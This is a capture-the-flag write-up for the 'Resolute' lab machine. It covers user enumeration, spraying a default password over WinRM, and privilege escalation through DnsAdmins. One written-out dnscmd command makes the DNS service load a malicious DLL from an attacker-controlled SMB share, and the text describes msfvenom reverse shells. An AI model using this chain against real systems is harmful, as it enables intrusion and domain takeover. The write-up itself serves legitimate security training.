










# Resolute

First we will scan all the ports in the system and then the version of each:



Using tools such as enum4linux we can find the list of users in the system and also the default password used by the sysadmins: "Welcome123!":


## Getting access as melanie



As the Winrm port is open, we will create a loop to check each of the users with the default password “Welcome123!” using Evilwinrm:



We find out that “melanie” user uses the default password:




## From Melanie to ryan

With that, we already have the user.txt flag. We need to escalate to user “ryan” before becoming administrators if the system. For that, we can read a hidden file in the also hidden directory C:\PSTranscripts, where we will find ryan's password and access with that user using Evilwinrm again.


## From dnsadmin (ryan) to SYSTEM

Checking ryan's privileges in the domain, we find out he is a **dnsadmin**. This allows us to escalate privileges as explained [in this great blog](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise).

First, we will create a malicious DLL file using Msfvenom:



We can test this with “rundll32”


And we see the connection is correct:



Then we will set the malicious DLL to execute as “Server level plugin dll” in the DNS service:

```
dnscmd /config /serverlevelplugindll \\10.10.14.211\RIC\ric.dll
```

And check it using Powershell:

```
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```



The file is accessed correctly by RESOLUTE machine:

However, this did not work. The architecture was incorrect or there was an antivirus which did not allow us to do this! So we will create a simple reverse shell with Msfvenom and setting the architecture correctly:



We will set the patload again and list the value:




Finally, we get a shell as the user SYSTEM:


